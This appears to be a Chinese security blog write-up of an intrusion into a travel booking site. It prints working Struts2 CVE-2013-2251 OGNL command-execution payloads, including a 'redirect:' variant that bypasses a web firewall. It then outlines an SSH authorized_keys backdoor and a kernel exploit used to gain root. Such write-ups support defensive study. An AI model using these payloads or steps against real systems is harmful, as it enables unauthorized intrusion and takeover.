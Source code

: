 #  一次绕过防火墙获取RCE以及提权到root权限的渗透过程   
 迪哥讲事   2023-09-28 12:23  
  
本文是关于  
Apache struts2 CVE-2013-2251是由于导致执行远程命令的影响而被高度利用的漏洞。简而言之，  
 通过操纵以“action:”/”redirect:”/”redirectAction:”为前缀的参数引入的漏洞，允许在使用<Struts 2.3.15作为框架的Java Web应用程序中执行远程命令。  
  
   
  
现在，当这个漏洞以病毒式疯狂传播时，主要的应用防火墙厂商开始更新它们的规则引擎和检测技术，以防止它发生。但是作者不仅能够绕过防火墙并获得远程代码执行，还能够通过利用内核漏洞来提权到以root用户身份获取服务器权限。  
  
   
  
当作者在测试旅行预订网站时，是  
   
因为为了找到应用程序是否运行在易受攻击的Apache Struts框架上的漏洞利用，只需检查以下易受攻击的参数  
-“action, redirect,redirectAction”和正确的有效攻击负载，通过  
google找到利用poc的博客（必须构建一个  
OGNL表达式），  
http://blog.opensecurityresearch.com/2014/02/attacking-struts-with-cve-2013-2251.html ，下面是用于运行命令  
“ifconfig”的有效负载。  
<table><tbody style="border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;"><tr style="border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;"><td style="border-collapse: collapse;padding: 0px !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;min-width: auto !important;border-radius: 0px !important;background: none !important;inset: auto !important;float: none !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(175, 175, 175) !important;" width="35" height="NaN"><p>1</p></td><td style="border-collapse: collapse;padding: 0px !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;min-width: auto !important;border-radius: 0px !important;background: none !important;inset: auto !important;float: none !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;box-sizing: content-box !important;min-height: auto !important;" width="NaN" height="NaN"><p><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;">redirect:${#a=(</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;">new</code> <code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;">java.lang.ProcessBuilder(</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;">new</code> <code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;">java.lang.String[]{‘ ifconfig’})).start(),#b=#a.getInputStream(),#c=</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;">new</code> <code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;">java.io.InputStreamReader(#b),#d=</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;">new</code> <code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;">java.io.BufferedReader(#c),#e=</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;">new</code> <code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;">char</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;">[50000],#d.read(#e),#matt=#context.</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;">get</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;">(‘com.opensymphony.xwork2.dispatcher.HttpServletResponse’),#matt.getWriter().println(#e),#matt.getWriter().flush(),#matt.getWriter().close()}</code></p></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wkJqjMTzCUwMRdibicee5UB74OE8iaoiaR8adxYfc9erpD7zLEHw7mU9xiag/640?wx_fmt=jpeg "")  
  
但正如预料的那样，它被应用防火墙阻止了，并将重定向到一个  
bot机器页面 。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wsw44oia9viaUvC40FknIzicw3D7pQDnXtLKLVkZMbJjgpSpqOfpP9hrbg/640?wx_fmt=jpeg "")  
  
当这样的事情发生在作者身上时，正如前面指出的那样，知道哪些参数易受攻击，其中之一是在上述请求中使用的  
“redirect”参数。   
“redirect”，是的，你觉得它是正确的，让我们尝试在这里重定向，只是把它重定向到http：//www.goal.com  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wr4VBmZ1aPHJXawrlHcx3VcKnwzBMl9TvPne8rSaJPX0dByMMuIboUA/640?wx_fmt=jpeg "")  
  
正如你所看到的那样，作者得到了  
302重定向到位置http://www.goal.com ，所以之前的  
ifconfig命令有效载荷被阻止了，这个重定向方法，给了作者一个绕过防火墙的思路，所以，将上面的有效负载进行修改如下：  
<table><tbody style="border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;"><tr style="border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;"><td style="border-collapse: collapse;padding: 0px !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;min-width: auto !important;border-radius: 0px !important;background: none !important;inset: auto !important;float: none !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(175, 175, 175) !important;" width="35" height="NaN"><p>1</p></td><td style="border-collapse: collapse;padding: 0px !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;min-width: auto !important;border-radius: 0px !important;background: none !important;inset: auto !important;float: none !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;box-sizing: content-box !important;min-height: auto !important;" width="NaN" height="NaN"><p><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;">redirect:http:</code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 130, 0) !important;">//www.goal.com/${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{‘ ifconfig’})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get(‘com.opensymphony.xwork2.dispatcher.HttpServletResponse’),#matt.getWriter().println(#e),#matt.getWriter().flush(),#matt.getWriter().close()}</code></p></td></tr></tbody></table>  
并发起请求：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1w4FqVSYMjVj1tAj4lMZW9aA8xGNXkW6CzzlWvVaJicOicia63hxYkwOWicA/640?wx_fmt=jpeg "")  
  
下面显示了能够绕过防火墙并获得运行的  
“ifconfig”命令输出信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wZkCBthVaQKPChTc6YCBKrNKebUeEPia47KqUtrUNayZfIVLgUD0gXZw/640?wx_fmt=jpeg "")  
  
下一个目标是获得服务器的远程  
shell，作者使用反向SSH隧道和公钥认证来尝试并获取  
shell，它允许SSH用户在不输入密码的情况下登录。  
   
因此，作者必须将攻击者服务器的ssh公钥放入受害服务器的授权路径下~/.ssh/authorized_keys，为了获取授权身份，并且获取为反向  
ssh隧道，还必须添加受害ssh服务器的id_rsa.pub公钥。  
   
为了阐述上面2个关键词的概念并理解  
公钥认证的概念  
-----id_rsa.pub是您添加到其他主机的authorized_keys文件以允许您以该用户身份登录的公钥。  
 authorized_keys是允许登录到特定服务器上的特定帐户的公钥列表。  
  
第一步  
 - 使用RCE查找受害服务器的id_rsa.pub文件位置  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wJSuKQp25A2oENuQnbeffwX0ZmOMRyf7iciaTs5tOhCiaUee0ibXQBiaPg4Q/640?wx_fmt=jpeg "")  
  
第二步  
 - 将authorized_keys从受害者服务器复制到攻击者服务器上  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wccyhOibpNuCCichs9Pc0XWEgR3nEoibNezZKIN31KXpNDH4WMWqyr9bJA/640?wx_fmt=jpeg "")  
  
第三步  
 - 将修改后的authorized_keys从攻击者服务器复制回来，通过读取  
id_rsa.pub获得shell.  
  
最后一步  
 - SSH在攻击者机器上使用反向隧道，所以运行了如下命令行：  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1w8VBkELQkicGMTuib682H3icvosTWSOLSaMg3q0nWqUqCicj4aM2TFboO9w/640?wx_fmt=jpeg "")  
  
   
  
能够获得服务器的远程  
shell,但没以root登陆的权限，这就意味着只有有限的权利访问文件和命令执行。  
 现在为了获取以root用户身份登录的权限，作者首先查看当前受害机器上运行的内核版本是什么：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1w4wmyibib7MZE6E2uYRAO32GDV9o2grBJwWIibN5aIXiaNFUkfpnhZfA3og/640?wx_fmt=jpeg "")  
  
因此发现了内核版本是  
2.6.32，通过google查找到利用的  
CVE，该CVE可  
  
容易进行账户提权和漏洞利用  
----https：//github.com/realtalk/cve-2013-2094 ，最终够获得root用户权限。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wUbud2HmYCQp1Vy2aAicUvvQibmJQTwiaJ8UVNCoicj1mqTNCFZ97h6ddmg/640?wx_fmt=jpeg "")  
  
这就是如何通过利用  
apache strut 2漏洞和内核版本漏洞利用结合来获取以root用户服务器的远程  
shell。  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球([优先查看这个链接，里面可能还有优惠券](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247489122&idx=1&sn=a022eae85e06e46d769c60b2f608f2b8&chksm=e8a61c01dfd195170a090bce3e27dffdc123af1ca06d196aa1c7fe623a8957755f0cc67fe004&scene=21#wechat_redirect)  
)，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5jYW8icFkojHqg2WTWTjAnvcuF7qGrj3JLz1VgSFDDMOx0DbKjsia5ibMpeISsibYJ0ib1d2glMk2hySA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 往期回顾  
  
[2022年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[SSRF研究笔记](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)  
  
  
[xss研究笔记](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487130&idx=1&sn=e20bb0ee083d058c74b5a806c8a581b3&chksm=e8a604f9dfd18defaeb9306b89226dd3a5b776ce4fc194a699a317b29a95efd2098f386d7adb&scene=21#wechat_redirect)  
  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
## 福利视频  
  
笔者自己录制的一套php视频教程(适合0基础的),感兴趣的童鞋可以看看,基础视频总共约200多集,目前已经录制完毕,后续还有更多视频出品  
  
https://space.bilibili.com/177546377/channel/seriesdetail?sid=2949374  
## 技术交流  
  
技术交流请加笔者微信:richardo1o1 (暗号:growing)  
  
  
